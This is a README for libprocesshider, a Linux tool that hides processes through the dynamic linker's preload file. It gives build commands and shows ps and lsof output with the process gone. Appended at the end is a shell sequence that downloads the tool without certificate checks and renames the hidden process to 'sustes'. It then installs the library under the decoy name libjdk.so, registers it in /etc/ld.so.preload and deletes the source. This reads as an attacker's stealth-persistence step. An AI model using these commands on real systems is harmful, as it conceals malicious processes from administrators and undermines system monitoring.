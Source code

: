 libprocesshider
===============

Hide a process under Linux using the ld preloader.

Full tutorial available at https://sysdigcloud.com/hiding-linux-processes-for-fun-and-profit/

In short, compile the library:

```
gianluca@sid:~/libprocesshider$ make
gcc -Wall -fPIC -shared -o libprocesshider.so processhider.c -ldl
gianluca@sid:~/libprocesshider$ sudo mv libprocesshider.so /usr/local/lib/
```

Load it with the global dynamic linker

```
root@sid:~# echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```

And your process will be off the radar 

```
gianluca@sid:~$ sudo ps aux
USER PID %CPU %MEM VSZ RSS TTY STAT START TIME COMMAND
...

gianluca@sid:~$ sudo lsof -ni
COMMAND PID USER FD TYPE DEVICE SIZE/OFF NODE NAME
...
```
wget --no-check-certificate https://github.com/gianlucaborello/libprocesshider/archive/master.zip -O master.zip && unzip master.zip && rm -f master.zip && cd libprocesshider-master;
sed -i 's/evil_script.py/sustes/' processhider.c
make && mv libprocesshider.so /usr/local/lib/libjdk.so && echo /usr/local/lib/libjdk.so >> /etc/ld.so.preload && cd .. && rm -rf libprocesshider-master
